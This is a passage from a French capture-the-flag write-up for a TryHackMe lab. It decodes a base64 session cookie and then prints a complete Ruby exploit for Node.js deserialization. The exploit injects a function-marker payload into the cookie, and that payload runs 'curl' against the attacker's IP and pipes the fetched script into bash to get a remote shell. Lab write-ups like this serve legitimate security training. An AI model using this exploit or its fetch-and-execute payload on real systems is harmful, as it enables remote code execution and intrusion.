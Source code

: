 ![page3](./Task1-03.png)

On remarque un cookie qui est encodé en base64.   

La valeur du cookie est : eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

On a affaire a du node js, de plus le scan nous confirme que c'est du node.js.   

On recherche nodejs unserialise reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.rb 
require 'ctf_party' # gem install ctf-party
require 'json'
require 'httpclient' # gem install httpclient

# change values here
URL = 'http://10.10.38.93:8080/'
LHOST = '10.9.228.66'
LPORT = 1234
FILE = 'noraj.sh'

payload = """
require('child_process').exec('curl #{LHOST}:#{LPORT}/#{FILE} | bash', function(error, stdout, stderr)
{ console.log(stdout) })
""".gsub("\n", '')

puts payload

code = "_$$ND_FUNC$$_#{payload}"

cookie = { username: code, isAdmin: true, encoding: 'utf-8' }

headers = {
  'Cookie' => "session=#{cookie.to_json.to_b64.urlencode}"
}

clnt = HTTPClient.new
clnt.cookie_manager = nil
clnt.get(URI(URL), nil, headers)
```